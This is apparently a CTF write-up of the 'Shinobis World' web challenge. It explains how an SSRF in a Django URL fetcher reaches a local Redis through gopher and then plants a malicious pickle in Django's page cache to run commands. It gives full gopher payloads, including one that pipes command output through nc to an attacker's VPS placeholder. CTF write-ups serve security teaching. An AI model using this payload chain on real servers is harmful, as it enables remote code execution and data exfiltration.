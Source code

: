 ```yaml
---
title: Shinobis World - Web Exploitation NCSC 2.0 CTF
summary: 
date: "2020-01-23T00:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```


# **Shinobis World (1000pts) (1 Solves)** #

![TASK](https://imgur.com/7X3dgtW.png)

Hello guys again , in this task we are give the Settings.py of a django Web application , we can notice that the website is using caching with redis that is listening on port 6379 locally !

![TASK](https://imgur.com/60QSkz4.png)

Our first impression, we see an url fetcher that is curling websites which will be probably some SSRF , we try the usual payloads and we find that file ,localhost and 127.0.0.1 are filtered 
so we can use 127.0.1 and maybe http or gopher protocol , firstly let's think , as we said we had a redis instance that is running on localhost , so may be using the ssrf we can interact with it

in fact you can use gopher protocol to interact with redis :

> gopher://127.0.1:6379/_RedisCommandHERE

for example to list all keys:

>> gopher://127.0.1:6379/_keys%20*

if we refresh the shinobis web page and then list all keys we can see some new keys that are set :

> :1:views.decorators.cache.cache_page..GET.a906279c6f1b8c76747a8ba71e866d8c.d41d8cd98f00b204e9800998ecf8427e.en-us.UTC
>> :1:views.decorators.cache.cache_header..a906279c6f1b8c76747a8ba71e866d8c.en-us.UTC 

![TASK](https://imgur.com/bOKKP3k.png)

If you read the Django Manual you will find that the caching system in django is a little bit different , first of all django will serialize the header and the rest of the page using pickle then it will cache them in the memory

So the idea is to forge our payload using pickle and the set the default key of django (:1:views.decorators.cache.cache_page..GET.a906279c6f1b8c76747a8ba71e866d8c.d41d8cd98f00b204e9800998ecf8427e.en-us.UTC) with our payload , here is what will happen chronologically :
- Django will try to load the page so firstly he will check if the :1:views.decorators.cache.cache_page..GET.a906279c6f1b8c76747a8ba71e866d8c.d41d8cd98f00b204e9800998ecf8427e.en-us.UTC key is set 
- if the key is set he will unpickle the data stored there and load the page using this content
- Our payload will be executed then Bingo we will have the flag :D

Final Payload : 
> gopher://127.0.1:6379/aset%20:1:views.decorators.cache.cache_page..GET.a906279c6f1b8c76747a8ba71e866d8c.d41d8cd98f00b204e9800998ecf8427e.en-us.UTC%20"cposix\nsystem\np0\n(S'ls|nc YourVPSIP 1234'\np1\ntp2\nRp3\n."
This Payload will execute ls command and send it to our vps (don't forget to refresh the Shinobis page because it's the page that is being cached)

***Note:*** You can find the source code of this task in the source code repo of my github repo

**Conclusion**

I hope that you liked the challenge , i tried to combine the SSRF with this default feature of django that can be used maliciously , it can be applied with any caching system (Memcached or Redis ..)
If you have any questions dont forget to contact me and if you liked this writeup please star this repo :D


